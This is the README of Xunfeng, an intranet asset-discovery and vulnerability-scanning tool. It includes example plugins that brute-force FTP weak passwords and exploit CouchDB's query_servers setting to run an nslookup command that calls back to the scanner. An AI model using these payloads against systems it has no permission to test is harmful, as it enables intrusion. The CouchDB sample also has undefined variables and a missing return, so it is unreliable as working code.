 # 巡风 [![License](https://img.shields.io/aur/license/yaourt.svg)](https://github.com/ysrc/xunfeng/blob/master/LICENSE)
----------

**巡风**是一款适用于企业内网的`漏洞快速应急、巡航扫描`系统，通过搜索功能可清晰的了解内部网络资产分布情况，并且可指定漏洞插件对搜索结果进行快速漏洞检测并输出结果报表。

**本软件只做初步探测，无攻击性行为。请使用者遵守《[中华人民共和国网络安全法](http://www.npc.gov.cn/npc/xinwen/2016-11/07/content_2001605.htm)》，勿将巡风用于非授权的测试，YSRC/同程安全应急响应中心/同程网络科技股份有限公司不负任何连带法律责任。**

其主体分为两部分：`网络资产识别引擎`，`漏洞检测引擎`。

网络资产识别引擎会通过用户配置的IP范围`定期自动`的进行端口探测（支持调用MASSCAN），并进行指纹识别，识别内容包括：服务类型、组件容器、脚本语言、CMS。

漏洞检测引擎会根据用户指定的`任务规则`进行定期或者一次性的漏洞检测，其支持2种插件类型、标示符与脚本，均可通过web控制台进行添加。


## 安装指南

[![Python 2.7](https://img.shields.io/badge/python-2.7-yellow.svg)](https://www.python.org/) [![MyGet](https://sec-pic-ly.b0.upaiyun.com/xunfeng/static/MongoVersion.svg?a=1)](https://www.mongodb.com/download-center?jmp=nav)

国内镜像 https://code.aliyun.com/ysrc/xunfeng.git

* [Windows 安装指南](./docs/install/Windows.md)
* [OSX 安装指南](./docs/install/OSX.md)
* [Linux 安装指南](./docs/install/Linux.md)
* [Docker 安装指南](./docs/install/Docker.md)
* [Linux 一条命令安装](./docs/install/Linux_AutoInstall.md)

## 配置指南
- 在配置-爬虫引擎-网络资产探测列表 设置内网IP段**（必须配置，否则无法正常使用,每个IP段最大限制为10个B段）**。
- 在配置-爬虫引擎-资产探测周期 设置计划规则。
- 可启用MASSCAN(探测范围为全端口)代替默认的端口探测脚本，需安装好MASSCAN后配置**程序完整绝对路径**，点击开启即可完成切换。
  MASSCAN需chmod +x 给执行权限，并手动执行确保可正常运行后再开启。
- 其他配置根据自身需要进行修改。

## 插件编写
漏洞插件支持2种类型，标示符与python脚本，可以通过官方推送渠道安装或者自行添加。

**JSON标示符**

![](https://sec-pic-ly.b0.upaiyun.com/img/161220/261479B35BD86E479D6E40DAA990E700749CA50E.png)

**Python脚本**

插件标准非常简洁，只需通过 `get_plugin_info` 方法定义插件信息，`check`函数检测漏洞即可。

```python
# coding:utf-8

import ftplib

def get_plugin_info():  # 插件描述信息
    plugin_info = {
        "name": "FTP弱口令",
        "info": "导致敏感信息泄露，严重情况可导致服务器被入侵控制。",
        "level": "高危",
        "type": "弱口令",
        "author": "wolf@YSRC",
        "url": "",
        "keyword": "server:ftp",  # 推荐搜索关键字
    }
    return plugin_info

def check(ip, port, timeout): # 漏洞检测代码
    user_list = ['ftp', 'www', 'admin', 'root', 'db', 'wwwroot', 'data', 'web']
    for user in user_list:
        for pass_ in PASSWORD_DIC:  # 密码字典无需定义，程序会自动为其赋值。
            pass_ = str(pass_.replace('{user}', user))
            try:
                ftp = ftplib.FTP()
                ftp.timeout = timeout
                ftp.connect(ip, port)
                ftp.login(user, pass_)
                if pass_ == '': pass_ = 'null'
                if user == 'ftp' and pass_ == 'ftp': return u"可匿名登录"
                return u"存在弱口令，账号：%s，密码：%s" % (user, pass_)  # 成功返回结果，内容显示在扫描结果页面。
            except:
                pass
```

此外系统内嵌了辅助验证功能:

> DNS：触发，nslookup randomstr IP，验证， http://ip:8088/randomstr ，返回YES即存在。
> HTTP：触发，http://ip:8088/add/randomstr ，验证， http://ip:8088/check/randomstr ，返回YES即存在。

使用例子:

```python
import urllib2
import random
import socket

def get_plugin_info():  # 插件描述信息
    plugin_info = {
            "name": "CouchDB未授权访问",
            "info": "导致敏感信息泄露，攻击者可通过控制面板执行系统命令，导致服务器被入侵。",
            "level": "高危",
            "type": "未授权访问",
            "author": "wolf@YSRC",
            "url": "",
            "keyword": "server:couchdb",  # 推荐搜索关键字
    }

def get_ver_ip(ip):
    csock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    csock.connect((ip, 80))
    (addr, port) = csock.getsockname()
    csock.close()
    return addr

def random_str(len):
    str1=""
    for i in range(len):
        str1+=(random.choice("ABCDEFGH1234567890"))
    return str(str1)

def check(ip,port,timeout):
    rand_str = random_str(8)
    cmd = random_str(4)
    server_ip = get_ver_ip()
    req_list = [
        ["/_config/query_servers/%s"%(cmd),'"nslookup %s %s>log"'%(rand_str,server_ip)],
        ["/vultest123",''],
        ["/vultest123/test",'{"_id":"safetest"}']
    ]
    for req_info in req_list:
        try:
            request = urllib2.Request(url+req_info[0],req_info[1],timeout=timeout)
            request.get_method = lambda: 'PUT'
            urllib2.urlopen(request)
        except:
            pass
    try:
        req_exec = urllib2.Request(url + "/vultest123/_temp_view?limit=11",'{"language":"%s","map":""}'%(cmd))
        req_exec.add_header("Content-Type","application/json")
        urllib2.urlopen(req_exec)
    except:
        pass
    check = urllib2.urlopen("http://%s:8088/%s"%(server_ip,rand_str)).read()
    if 'YES' in check:
        return u"未授权访问"
```

## 流程演示视频

[![](https://sec-pic-ly.b0.upaiyun.com/xunfeng/static/intro.png)](https://sec-pic-ly.b0.upaiyun.com/xunfeng/xunfeng.mp4)


## 文件结构

    │  Config.py  # 配置文件
    │  README.md  # 说明文档
    │  Run.bat  # Windows启动服务
    │  Run.py  # webserver
    │  Run.sh    # Linux启动服务，重新启动前需把进程先结束掉
    │
    ├─aider
    │      Aider.py  # 辅助验证脚本
    │
    ├─db  # 初始数据库结构
    │
    ├─masscan  # 内置编译好的Masscan程序（CentOS win64适用），需要chmod+x给执行权限（root），若无法使用请自行编译安装。
    ├─nascan
    │  │  NAScan.py # 网络资产信息抓取引擎
    │  │
    │  ├─lib
    │  │      common.py 其他方法
    │  │      icmp.py  # ICMP发送类
    │  │      log.py  # 日志输出
    │  │      mongo.py  # 数据库连接
    │  │      scan.py  # 扫描与识别
    │  │      start.py  # 线程控制
    │  │
    │  └─plugin
    │          masscan.py  # 调用Masscan脚本
    │
    ├─views
    │  │  View.py  # web请求处理
    │  │
    │  ├─lib
    │  │      Conn.py  # 数据库公共类
    │  │      CreateExcel.py  # 表格处理
    │  │      Login.py  # 权限验证
    │  │      QueryLogic.py  # 查询语句解析
    │  │
    │  ├─static #静态资源目录
    │  │
    │  └─templates #模板文件目录
    │
    └─vulscan
        │  VulScan.py  # 漏洞检测引擎
        │
        └─vuldb # 漏洞库目录

扫描下方二维码关注YSRC公众号，回复自己的微信号+巡风，会有人拉你进巡风的微信讨论群。

![](http://mmbiz.qpic.cn/mmbiz/PAV8ewtdsKpkeG9VRYNhC76iacVSe3ichYiajictdF2Q34PQo7iaPV15jjGiaAev6SqpeK5maDvtAYUtqXEYUib4ljM3A/640?wx_fmt=jpeg&tp=webp&wxfrom=5&wx_lazy=1)
